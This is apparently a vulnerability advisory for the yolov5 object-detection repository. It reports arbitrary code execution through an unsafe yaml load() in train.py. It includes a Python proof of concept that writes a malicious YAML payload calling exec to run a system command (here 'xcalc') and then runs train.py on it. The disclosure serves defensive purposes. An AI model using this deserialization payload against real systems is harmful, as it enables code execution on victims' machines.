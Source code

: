 # Description
**Arbitrary Code Excecution** in ultralytics/yolov5.
Yolov5 is a Object Detection model from Ultralytics. Ultralytics is a U.S.-based particle physics and AI startup with over 6 years of expertise supporting government, academic and business clients. Ultralytics offer a wide range of vision AI services, spanning from simple expert advice up to delivery of fully customized, end-to-end production solutions.
# Technical Description
This package was vulnerable to Arbitrary code execution due to a use of a known vulnerable function **load()** in **yaml**. **NOTE : ** the fix iis to be done in **train.py**
# Exploit code
**Python File**
```python
import os
exploit = '''!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
'''
os.system('git clone https://github.com/ultralytics/yolov5.git')
os.chdir('yolov5/')
os.system('rm exploit.yml')
open('exploit.yml','w+').write(exploit)
os.system('python train.py --data exploit.yml --cfg exploit.yml --weights "" --batch-size 24')
```
# POC
* Run the exploit code 

![](https://cdn.discordapp.com/attachments/749019614352244777/786931254032334868/Screenshot_from_2020-12-11_17-50-56.png)
